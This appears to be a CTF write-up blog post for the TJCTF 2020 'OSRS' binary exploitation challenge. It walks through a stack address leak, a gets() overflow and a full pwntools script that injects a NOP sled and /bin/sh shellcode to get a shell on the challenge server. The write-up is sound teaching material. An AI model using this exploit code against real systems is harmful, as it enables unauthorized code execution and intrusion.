```yaml
---
layout: post
title: TJCTF 2020 - OSRS
excerpt: "Writeup for shellcode buffer overflow challenge from TJCTF 2020"
categories: [pwn]
---
```


OSRS was a pwn challenge from TJCTF 2020 which supplied only a binary. The results of running the binary are seen below.

```
michael@computer:~/Documents/CTF/osrs$ ./osrs 
Enter a tree type: 
test
I don't have the tree -1222996 :(
```

Okay, when we give a value for "tree", the binary stops and gives back a seemingly random integer. The next step for me was analyzing the binary in [Ghidra](https://ghidra-sre.org/). I also ran checksec on the binary to see which security features needed to be bypassed. Below is the Ghidra's disassembled version of the `get_tree` function, which is called by main.

<img src="/img/pictures/ghidra-get-tree-osrs.png" >

```
michael@computer:~/Documents/CTF/osrs$ checksec ./osrs
[*] '/home/michael/Documents/CTF/osrs/osrs'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Wow! The binary has no security features enabled. Also, we can see the dangerous "gets" function being called with the 256 byte buffer called `tree_type`. Exploiting this would still be difficult though without knowing any addresses on the stack (for jumping to shellcode). Since ASLR is probably enabled, some brute forcing or more advanced technique would be necessary. Fortunately, the seemingly random number that we saw printed earlier is actually the `tree_type` variable being printed with the incorrect format string. Whenever a char pointer is passed into the format specifier of a signed integer, the address of the char is printed in signed integer format. This will give us an address on the stack to base our exploit off of. 

First, we need to store the leaked memory address, but also keep the program running. For this I used the buffer overflow to cause the program to return to the vulnerable `get_tree` function. On the second round through `get_tree`, we can put shellcode (with a [nop-slide](https://en.wikipedia.org/wiki/NOP_slide)) onto the stack and jump into it (taking advantage of our leaked stack address). Using GDB, I was able to determine that the offset from `tree_type` to the return pointer is 272. I also used python's "ctypes" module to convert the signed int to an unsigned int. My code is below.

```python
from pwn import *
import ctypes

p = remote('p1.tjctf.org', 8006)
#p = process('./osrs')

# http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

get_tree = 0x080485c8

# return to get_tree
p.sendline('A' * 272 + p32(get_tree))

# read leak
leak = int(p.recvuntil(':(').split(' ')[-2])
leak = ctypes.c_uint(leak).value

# address of stack + ~30
stack = leak + 300

# return to nop sled + shellcode
p.sendline('A' * 272 + p32(stack) + '\x90' * 60 + shellcode) 

p.interactive()
```

Executing the script gives us a shell which allows us to read the flag (seen below). I hope this was helpful!

```
michael@computer:~/Documents/CTF/osrs$ python osrs.py 
[+] Opening connection to p1.tjctf.org on port 8006: Done
[*] Switching to interactive mode

Enter a tree type: 
I don't have the tree -9172 :(

$ cat flag.txt
tjctf{tr33_c0de_in_my_she115}
```
